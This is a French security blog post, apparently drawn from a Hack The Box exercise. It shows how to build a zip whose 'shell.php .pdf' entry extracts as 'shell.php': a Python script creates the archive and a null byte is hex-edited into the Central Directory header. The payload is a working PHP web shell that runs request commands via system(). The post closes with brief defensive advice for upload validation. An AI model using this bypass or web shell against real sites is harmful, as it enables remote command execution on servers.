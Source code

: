 ```yaml
---
title: Comment faire en sorte qu'un fichier "shell.php .pdf" devienne "shell.php"
  via la décompression d'un zip ?
img_path: "/assets/img/posts/file_zip_upload_with_different_name"
categories:
- Vulnérabilités Web
- web
---
```


## Introduction

> À l'occasion de la résolution d'une machine hack the box, une incompréhension de ma part à propos d'un payload a mené à la "découverte" d'un comportement plutôt rigolot et qui pourrait s'avérer utile dans certain cas précis : avoir une archive zip où, un fichier nommé par exemple `shell.php. pdf`se transforme en `shell.php` à la décompression. Testé avec 7z et zip sur ubuntu.

### Comment ça se passe

Pour faire synthétique, voici la procédure :

- 1) Créer un fichier zip via python (script de hacktricks) :

```python
import zipfile
from io import BytesIO

def create_zip():
    f = BytesIO()
    z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
    z.writestr('shell.php .pdf', '<?php echo system($_REQUEST["cmd"]); ?>')
    z.close()
    zip = open('poc.zip','wb')
    zip.write(f.getvalue())
    zip.close()

create_zip()
```

> On remarque que le nom a un espace  entre `php` et `pdf`.

- 2) Editer le fichier zip avec une éditeur héxadécimal. Remplacer l'octet `20` par `00` du nom du fichier placé dans le *[Central Directory Header](https://users.cs.jmu.edu/buchhofp/forensics/formats/pkzip.html)*.

```hex
# avant le changement du nom dans le  Central Directory header
00000080: 0000 0073 6865 6c6c 2e70 6870 202e 7064  ...shell.php .pd
# après le changement du nom dans le the Central Directory header
00000080: 0000 0073 6865 6c6c 2e70 6870 002e 7064  ...shell.php..pd
```

- 3) Profit :

![Proof of concept du tricks](poc.png)

### Dans quels cas c'est utile ?

De ce que je peux supputer, c'est utile si l'application ne checke pas la conformité entre le nom du fichier et ce qui est effectivement décompressé. 

Cependant, si l'application ne teste que le *local file name* vis à vis du nom décompressé, cela laisse une petite fenêtre de temps pour pouvoir par exemple exécuter le fichier si exécutable (non testé) avant que le nom soit effectivement testé. Le plus safe est de tester l'égalité du *local file name* et du nom dans le *central directory header*. De plus, il faut absolument éviter de placer le fichier dans un dossier exécutable et au nom facilement devinable.

